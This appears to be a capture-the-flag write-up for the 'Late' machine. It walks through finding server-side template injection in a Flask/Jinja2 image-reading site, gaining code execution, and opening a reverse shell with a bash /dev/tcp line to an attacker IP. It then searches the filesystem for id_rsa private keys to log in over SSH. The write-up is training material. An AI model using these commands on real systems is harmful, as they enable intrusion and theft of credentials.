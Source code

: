 Website generated with Flask.
Flask: Flask ist ein in Python geschriebenes Webframework.
Die einzigen Abhängigkeiten sind Jinja2, eine Template-Engine, und Werkzeug, eine Bibliothek zum Erstellen von WSGI-Anwendungen.
Programmiersprache: Python
Jinja2 is used by Python Web Frameworks such as Django or Flask.
Nutzt Template-Engine --> SSTI?
![](images.late.htb.png)
Test polyglot ssti from cobalt: https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti
If it throws an error ssti is succussfull
How to: grab screen area with payload and save it (ssti-cobalt.png).
![](ssti-cobalt-polyglot.png)
![](https://github.com/xenotim/CTF/blob/main/Late/screenshots/images.late.htb-upload%20image.png)

Result:
![](https://github.com/xenotim/CTF/blob/main/Late/screenshots/ssti-polyglot-response.png)

SSTI payload was succusfull! --> throws error!

Test: {{7*7}} --> 49 if successfull
![](https://github.com/xenotim/CTF/blob/main/Late/screenshots/ssti-77.png)

Result: 49 --> injectable
![](https://github.com/xenotim/CTF/blob/main/Late/screenshots/ssti-77-result.png)

SSTI remote commands from: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
![](https://github.com/xenotim/CTF/blob/main/Late/screenshots/ssti%20payload%20rce.png)

//Result
![](ssti id.png)
# getting shell

payload:
![](https://github.com/xenotim/CTF/blob/main/Late/screenshots/ssti%20reverse%20shell.png)

make dir www with index.html file:
````
bash -i >& /dev/tcp/10.10.14.5/1111 0>&1

`````

make python http.server on port 80 in the www folder
![](python3 http server on port 80.png)
nc listen on port 1111
![](https://github.com/xenotim/CTF/blob/main/Late/screenshots/nc%20shell.png)

look for id_rsa file
````
find / -type f -name id_rsa 2>/dev/null



`````

chmod 600 id_rsa --> ssh to the machine



XXXXXXXXXXXXXXXXXXXXXXXXX
